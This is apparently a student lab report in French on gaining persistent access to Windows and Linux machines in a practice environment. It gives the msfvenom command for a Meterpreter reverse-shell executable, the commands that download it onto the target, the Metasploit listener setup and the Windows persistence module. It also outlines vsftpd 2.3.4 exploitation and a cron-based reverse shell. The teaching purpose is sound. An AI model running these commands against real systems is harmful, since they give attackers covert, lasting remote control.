






# Compte Rendu - TP : Persistance Windows & Linux

## 1. Introduction
Ce laboratoire porte sur la mise en place de mécanismes de persistance sur des environnements Windows et Linux. L'objectif est de maintenir un accès discret et continu à un système compromis après une réinitialisation ou une déconnexion.

## 2. Persistance sur Windows
### 2.1 Génération du payload
La première étape consiste à créer un exécutable malveillant (`mentorat.exe`) configuré pour cibler notre architecture et initier une connexion vers notre machine d'attaque.
- **Commande exécutée sur Kali Linux** :
```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.232.131 LPORT=1234 -f exe -o mentorat.exe
```
**Résultat :** Génération réussie d'un payload brut de 7168 octets.


### 2.2 Transfert du payload
Mise en place d'un serveur HTTP temporaire sur la machine d'attaque pour le transfert du fichier `mentorat.exe` vers la cible Windows.
- **Commande sur Kali (serveur) :**
```bash
python3 -m http.server 8080
```


**Action sur Windows 10 (cible) :**
Accès via le navigateur à http://192.168.232.131:8080 et téléchargement du payload dans C:\Labs\.


**Alternative :**
En cas de blocage par le navigateur, utilisation de PowerShell pour le téléchargement direct du payload sans interaction via la navigation web.

**Commande PowerShell (sur Windows 10) :**
```powershell
Invoke-WebRequest -Uri "http://192.168.232.131:8080/mentorat.exe" -OutFile "C:\Users\Public\mentorat.exe"
```
### 2.3 Établissement du listener Metasploit
Configuration d'un écouteur sur la machine d'attaque pour intercepter la connexion inversée (reverse shell) initiée par le payload une fois exécuté sur la cible.

- **Commandes Metasploit :**
```text
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.232.131
set LPORT 1234
exploit
```
- **Résultat :**
établissement réussi de la session meterpreter > dès l'exécution du payload sur la cible Windows 10.



### 2.4 Configuration et exécution du Module de persistance Windows
Afin de s'assurer un accès durable et automatique à la machine cible même après un redémarrage, nous utilisons le module intégré de Metasploit `exploit/windows/local/persistence`.

- **Mise en arrière-plan de la session active :**
```text
background
```
- **Sélection et configuration du module de persistance :**
```text
use exploit/windows/local/persistence
set session 1
set LPORT 1234
run
```


### 2.5 Vérification de la persistance
Test du maintien de l'accès après fermeture de la session initiale pour valider l'automatisme de la reconnexion :

- **Commandes exécutées :**
```text
exit -y
```
Puis, relance de l'écouteur en arrière-plan depuis le terminal :
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.232.131; set LPORT 1234; run -j"
```

- **Résultat :**

Reconnexion automatique de la cible grâce au script et à la clé d'autorun enregistrés dans le système Windows, puis Ouverture instantanée d'une nouvelle session Meterpreter (Meterpreter session 1 opened).

## 3. Persistance sur Linux
- **Exploitation initiale** : exploitation de la vulnérabilité du service FTP (`vsftpd 2.3.4`) sur la cible.
- **Élévation du shell** : obtention d'un shell TTY interactif via Python.
- **Script de reverse shell** : développement et transfert d'un script Python malveillant.
- **Planification des tâches (Cron)** : ajout d'une tâche planifiée (`crontab`) pour automatiser l'exécution du reverse shell à intervalles réguliers.

## 4. Conclusion
Résumé des compétences acquises et des mesures de remédiation/défense pour contrer ces vecteurs de persistance.